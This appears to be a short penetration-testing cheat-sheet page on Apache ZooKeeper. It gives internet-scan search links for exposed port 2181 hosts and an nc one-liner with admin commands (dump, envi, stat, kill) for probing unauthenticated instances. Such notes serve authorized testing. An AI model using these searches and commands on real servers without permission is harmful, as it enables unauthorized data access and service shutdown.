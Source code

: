 ```yaml
---
description: 'Default Port: 2181'
---
```


# ZooKeeper PenTest

### Search&#x20;

```
Shodan:
https://www.shodan.io/search?query=port%3A2181
Censys:
https://search.censys.io/search?resource=hosts&sort=RELEVANCE&per_page=25&virtual_hosts=INCLUDE&q=services.port%3A2181
Fofa:
https://en.fofa.info/result?qbase64=cG9ydD0iMjE4MSI%3D
Zoomeye:
https://www.zoomeye.hk/searchResult?q=app%3AZookeeper
```

### Unauthenticated Access Zookeeper

```
echo dump |nc ip 2181
-envi
-reqs
-ruok
-stat
-kill (not recommends)
-dump 
```



[https://hackerone.com/reports/154369](https://hackerone.com/reports/154369)
